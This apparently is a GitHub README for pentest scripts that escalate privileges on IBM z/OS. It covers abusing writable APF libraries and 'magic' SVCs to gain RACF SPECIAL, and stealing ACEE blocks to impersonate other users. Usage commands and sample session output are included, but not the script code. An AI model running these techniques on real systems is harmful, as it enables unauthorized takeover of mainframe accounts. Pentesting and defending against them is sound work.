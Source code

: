 # Privilege escalation on z/OS

Some scripts to quickly escalate on z/OS given certain misconfigurations.  
These techniques have been around for a while, I just stringed some code together to have something easy to use in a pentest.

## ELV.APF    
### Description
This tool will list APF authorized libraries by browsing control blocks in memory. For each library it returns the access right of the current user.  
Given a library with ALTER/UPDATE access, the script compiles an ASM program into that library and executes it to give the SPECIAL privilege to the current user.
the ASM program updates the ACEE block in memory to give temporary SPECIAL privilege, which are made permanent by a regular ALU user SPECIAL a following step.
If you want to manually specify the user getting the SPECIAL privilege, replace userid() with any user in line 104

### Usage
 ```  
 List APF libraries : ex 'ELV.APF' 'LIST'
 Get Special: ex 'ELV.APF' '<APF_LIBRARY>'  
 ```
### Credit
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://mzelden.com/mvsutil.html  
http://zdevops.github.io/zdosu/ 

## ELV.SVC
### Description
This tool will go through user defined SVC looking for a "magic" or "auth" SVC.  
These are SVC generally used to temporarily grant admin privileges to normal users (in some instances installed by vendors)  
ELV.SVC looks for a specific pattern in each user SVC (num > 200) and if finds one dumps the SVC's opcode.  

The tool can also be used to call this "magic" SVC to grant SPECIAL privileges to the current user. It provides the possibility to defined a constant in a register before calling the target SVC to bypass some potential checks.
If you want to change the TSO command giving special privileges, alter line 342

Register 12 is used as base register. As such, it cannot be used to pass parameters.


### Usage
 ```  
 Look for magic SVC on TSO :  
     ex 'ELV.SVC'
 Get Special using SVC 233 and placing C1C1C1C1 in register 10: 
     ex 'ELV.SVC' 'NUM=233 10=C1C1C1C1 DSN=TEST.PDS'
```  
### Credit
Got the idea from Mark Wilson @ich408i   
https://share.confex.com/share/120/webprogram/Handout/Session12275/2013%20Share%20Pen%20Testing.pdf
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://www.mzelden.com/mvsfiles/iplinfo.txt  


## ELV.SELF
The tool lists address spaces currently running on z/OS: started tasks, tso users and jobs  
The user can choose an address space to "impersonate" by stealing their ACEE structure.  
The tool will perform cross memory copy to steal the privileges of the target and patch the current TSO session  
Requirement : APF library with ALTER access OR "magic" SVC (see above)

Register 12 is used as base register. As such, it cannot be used to pass parameters.

### Usage
 ```  
List active address spaces  
 TSO> ex 'ELV.SELF' 'LIST'  
 
 *** Listing active address spaces ***
  
 **** Started Task - Owner *****
 NETVSSI   -
 NETVIEW   -
 NETVSAM   -
 RACF      -  START2
 JES2      -
 DLF       -
 RRS       -
 VLF       -
 LLA       -
 CICSTS32  -  START2
 RMF       -  START2
 NET       -  START2
 RMFGAT    -  START2
 TCPIP     -  TCPIP
 TSO       -  START1
 PORTMAP   -  START2
  
 **** TSO Users - Owner ****
 ZERO     -  ZERO
 IBMUSER   -  IBMUSER
  
 **** Jobs - Owner ****
 FTPD1     -  FTPD
 INETD4    -  OMVSKERN


Impresonate TSO user IBMUSER, using APF library  
TSO > ex 'ELV.SELF' 'TAR=IBMUSER APF=USER.LINKLIB'  
      
Warning: No RACF profile defined for USER.LINKLIB  
Might not be able to write to USER.LINKLIB  
Got ASID 80 for IBMUSER  
Got ASID 38 for current session  
Local ACEE at  008FC6F0  
Compiling  UNCVDDF in APF USER.LINKLIB  

TSO > LU
USER=IBMUSER  NAME=*******  OWNER=IBMUSER   CREATED=*****


Impresonate Started task CICSTS32, using magic SVC 233 (register 10 to AAAA to grant access)      
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233 10=C1C1C1C1'  
Impresonate Started task CICSTS32, using magic SVC 233     
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233'  
```  

